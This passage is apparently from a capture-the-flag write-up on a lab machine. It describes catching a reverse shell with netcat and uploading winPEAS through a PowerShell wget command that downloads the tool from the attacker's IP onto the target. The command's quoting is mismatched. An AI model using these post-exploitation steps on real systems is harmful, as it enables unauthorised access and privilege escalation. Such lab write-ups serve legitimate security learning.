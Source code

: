 - As you can see I launched the exploit two times 

We have now a session in the terminal where I was listening with netcat.

![image](/assets/img/steel/opensession.png)

We are gonna upload our winPEAS file to search for any flaw in the system.
You can download it on github : 
[!github](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases)

Use the following command to upload it on the target machine :
```bash 
powershell -c wget "http://10.11.15.91/winPEASx86.exe -outfile "winPEAS.exe"
```

I successfully uploaded the .exe on the machine

![image](/assets/img/steel/winpeas.png)

Now run it and don't be afraid by the tons of infos that you will receive ;) 

We see again that the program return us the same problem.
We also know that as the user bill we can write data and create files. 
![image](/assets/img/steel/return.png)
